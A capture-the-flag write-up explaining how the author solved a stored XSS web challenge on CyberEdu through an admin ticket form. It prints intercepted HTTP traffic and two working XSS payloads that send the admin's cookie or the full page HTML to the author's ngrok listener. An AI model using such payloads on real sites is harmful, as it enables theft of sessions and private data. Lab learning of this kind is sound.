


# Write-up: 
##  manual-review

**Category:** Web
**Platform:** CyberEdu
**URL:** `https://app.cyber-edu.co/challenges/86519c10-0c81-11eb-91c3-a1f317c5e114`

---

The site provided us a login page with email and password, but also
a register form page. The login form has some security filters and
I can't use sql injection.

I just made a new account using the `register` form and I got to the main page, the dashboard page. Here I can submit a message for the admins:



I sent a ticket to the admins through the form and i intercepted the request in burp suite: 

```bash
POST /ticket-submit HTTP/1.1

Host: 34.185.190.187:32209

Content-Length: 116

Cache-Control: max-age=0

Accept-Language: en-US,en;q=0.9

Origin: http://34.185.190.187:32209

Content-Type: application/x-www-form-urlencoded

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Referer: http://34.185.190.187:32209/dashboard

Accept-Encoding: gzip, deflate, br

Cookie: XSRF-TOKEN=eyJpdiI6IjJjY2t6WTRyMEU0Mlh4bmZGaDVQN1E9PSIsInZhbHVlIjoiS0lkbnA3UXNia1lRWVg4MzNmbG0wak42cWd2Nk9lc0dCcHBOWElVMUdRVks0anhkRmtmRUFvK3ppVEVtb1BWQlZIY0hFcXBxMWJweGxrbWUzc3k3YksvMTBhVkNzVWdiUmlzdTFBUnNHU2Znb2llK1RIUGpTa2NTalpkVmFnTXEiLCJtYWMiOiJhMzRmM2Q5M2Y4Njg1NmY1NjgyZDY5Nzg1YWIzNWRmOGFhY2YzMjg5ZmY3YWYzN2U2NjE2ZGI1ODA4ZTk2ZjY4In0%3D; manual_review_session=eyJpdiI6ImcreERBL1EreFd4YWRnajVHRTh6eVE9PSIsInZhbHVlIjoibDgzVVNwbXU3aUNPNkZ2YmdCNWFTTisrU0pVd3hVcEFvSU5QVGV6WDJVa1EzNm4vNGRhRXhlOStZbExETzB6cEtnT0d0emRqNmd0eHpiY2FabzI3eDNxU3ZpTDg3V0VHeURwVGgvM3g5SHpCclBzd1EvTjdMYnlMRE5jbFVWOTQiLCJtYWMiOiIwMDBiOGIwZmUzZmFiYzRmZjRmMWE3YjNjOGYxOTEyMTcyMmM5Y2FkOWQ3ZDIxYmFhOTE2NjJiNGYxMWMxZjY4In0%3D

Connection: keep-alive

 

_token=iOZhnFqiUBVCzPRRGB073pj8s7WCGXuyiXkVmjJ6&content=Tudor+este+regele+%3F%21%23%22%3A%24%25%3F%24%23%24%7D%5E%22


```

## Response:

``` bash

HTTP/1.1 302 Found

Date: Sat, 25 Oct 2025 15:42:43 GMT

Server: Apache

Cache-Control: no-cache, private

Location: http://34.185.190.187:32209/dashboard

X-RateLimit-Limit: 60

X-RateLimit-Remaining: 59

Set-Cookie: XSRF-TOKEN=eyJpdiI6Ikx5cGpxejJ6UXdlL0x3YjJZQkh0RkE9PSIsInZhbHVlIjoiWm1EajZlV3Zvc05KWC9WNGN6amJtZ0JiZXM2RlpZeHl4T0VSWE9PaHBvVitvVDZKdGtZUGUrdEVzUFlWd2Z0dVdrcTlFNmJvZTI1Qms2MTRTSTRWNG1hQWpCQ05RbDE5U2JIY2kvSlhjSlFjYU8xZTJoWlNYWGxSTGJRZy9seXQiLCJtYWMiOiJhNjI2N2M5MjNmOWQyODg4ZmYzZGE2YTNlNDRjOGMyY2I1Y2RkZjA2NDA1MzQ5M2I4ODI1MGZiOWJhNmYyOWI4In0%3D; expires=Sat, 25-Oct-2025 17:42:43 GMT; Max-Age=7200; path=/; samesite=lax

Set-Cookie: manual_review_session=eyJpdiI6IkJ2N1pFanFNV0wxa2s3ZUhaeC9lK1E9PSIsInZhbHVlIjoiS0tGUko5aUlxam01bXRIVy95Ky9VWElraDFMM1UyM2EyZ0JSM01RalBqRUYvRzcvcEVRYnBzUzNjSEc5Nmd1R1lmR1JYRlpYMTd4SGVBQUs0ZnY1dm0xVC8relJGTDUzNmtXOTYvV29JenJzSDNYUWE1QUdUNk1ZdnRFNnhvUTkiLCJtYWMiOiJlMTA3MjI4ZDdhMmJlN2QxN2RmNjg2NDY5ZGFlYjg1MDI3M2U4YWE1MjRjOTI0YzAyZTEyYjhmYTJiMzNiMTdlIn0%3D; expires=Sat, 25-Oct-2025 17:42:43 GMT; Max-Age=7200; path=/; httponly; samesite=lax

Content-Length: 394

Keep-Alive: timeout=5, max=100

Connection: Keep-Alive

Content-Type: text/html; charset=UTF-8

 

<!DOCTYPE html>

<html>

    <head>

        <meta charset="UTF-8" />

        <meta http-equiv="refresh" content="0;url='http://34.185.190.187:32209/dashboard'" />


        <title>Redirecting to http://34.185.190.187:32209/dashboard</title>

    </head>

    <body>

        Redirecting to <a href="http://34.185.190.187:32209/dashboard">http://34.185.190.187:32209/dashboard</a>.

    </body>

</html>


```

This means that the server accepts my ticket and sends me back to the dashboard page.
This indicates me that there is a big posibility that our vulnerability is `Stored XSS`.
Why? Because I left a ticket for the admin. This implies that an admin will open a special page where he will read my ticket. If the server does not filter my text before showing it to the admin, I can execute JavaScript directly in his browser. This exploit is `Stored Cross-Site Scripting` (XSS).

I have to change the text in the `content` field with a script that
steals admin's cookie session.

For this task, I will use `ngrok`(tool that creates a secured "tunnel" between a port on my machine and the server of the challenge).

# 1. Python window
-> mini web server that runs locally, only on my computer

# 2. Ngrok window
-> anyone that visits `https://astir-unestimated-grayson.ngrok-free.dev` is connected on my python server



Now I ll make the admin to visit my URL and attach its cookie.

Building the `XSS Payload`:

`<script>document.location='https://astir-unestimated-grayson.ngrok-free.dev/log.txt?data=' + document.cookie;</script>`

First, i sent an usual request:


Them, i modified the content with my payload and I got those results:


No luck, the problem is the flag `HttpOnly`. This tells the browser that the `manual_review_session` cookie is IMPORTANT and it doesn't let any javascript code to get it.


Hmm, ok. I can't become the admin, but can I at least steal the admin's page content? Let's try a new payload:

```bash

<script>
  fetch('https://astir-unestimated-grayson.ngrok-free.dev', {
    method: 'POST',
    body: btoa(document.documentElement.outerHTML)
  });
</script>

```
## Payload breakdown
> 'https:://astir-....dev' is our "listener" URL(public address provided by ngrok)
> method: 'POST' (if we tried to use 'GET', the response would have been cut off because URLs have a maximum length)
> body : where we specify what data to send
> document.documentElement.outerHTML : gets everything inside the html, including the tag itself
This command "copies" the entire HTML source code of the page
the admin is looking at
> btoa(...) : converts from binary to ASCII and encodes the HTML into Base64


[!flag.jpg](img/flag.jpg)
This is a screenshot from the `ngrok` web interface (http://127.0.0.1:4040). 

`POST /` = the admin's browser sent a POST request to my ngrok server
(triggered by the `fetch` command)


`nrgrok` acts as a "man-in-the-middle`. It captures the entire request
from the admin's browser before it even forwards it to my local server
The data I want is already captured by ngrok at this point.

The "Headers" tab gives me information about the admin who visited the page:

`User-Agent`: the flag is hidden there
`Referer`: shows the exact URL on the admin's panel from which the request was made

`X-Forwarded-For` : The admin's bot real IP address which matches the IP of the challenge server